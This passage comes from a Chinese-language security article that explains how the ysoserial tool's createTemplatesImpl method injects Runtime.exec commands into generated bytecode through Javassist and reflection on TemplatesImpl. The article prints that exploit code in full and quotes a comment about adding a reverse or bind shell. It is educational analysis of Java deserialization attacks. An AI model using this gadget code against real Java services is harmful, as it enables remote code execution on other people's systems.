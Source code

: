 > // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections

后面的操作便是利用我自定义的模板类`Point`，生成新的类名，并使用`insertAfter`方法插入了恶意java代码，执行命令。有兴趣的可以再详细了解这个类的用法。这里不再赘述。

这段代码运行后，会在当前目录生成字节码(class文件)。使用`java`反编译器可看到源码，在原始模板类中插入了恶意静态代码，而且以字节码的形式直接存储。命令行直接运行，可以执行弹出计算器的命令：

![](http://drops.javaweb.org/uploads/images/27194c9392f6a3ecb47ed3d3e6ad13a2e61cd2a9.jpg)

现在看看老外工具中，生成字节码的代码为：

```
public static TemplatesImpl createTemplatesImpl(final String command) throws Exception {
    final TemplatesImpl templates = new TemplatesImpl();

    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());
    // run command in static initializer
    // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
    clazz.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") +"\");");
    // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());

    final byte[] classBytes = clazz.toBytecode();

    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes,
        ClassFiles.classAsBytes(Foo.class)});

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
    return templates;
}  

```

根据以上样例分析，可以清楚看见:前面几行代码，即生成了我们需要的**插入了恶意java代码的字节码数据**。该字节码其实可以看做是一个类(.class)文件。`final byte[] classBytes = clazz.toBytecode();`将其转成了二进制数据进行存储。

`Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes,ClassFiles.classAsBytes(Foo.class)});`这里又来到了一个有趣知识，那就是java反射机制的强大。`ysoserial`工具封装了使用反射机制对对象的一些操作，可以直接借鉴。

具体可以看看其源码，这里在工具中经常使用的`Reflections.setFieldValue(final Object obj, final String fieldName, final Object value);`方法，便是使用反射机制，将`obj`对象的`fieldName`属性赋值为`value`。反射机制的强大之处在于：

*   可以动态对对象的**私有属性**进行改变赋值，即：`private`修饰的属性。
*   动态生成任意类对象。

于是，我们便将`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`类生成的对象`templates`中的`_bytecodes`属性，`_name`属性，`_tfactory`属性赋值成我们希望的值。
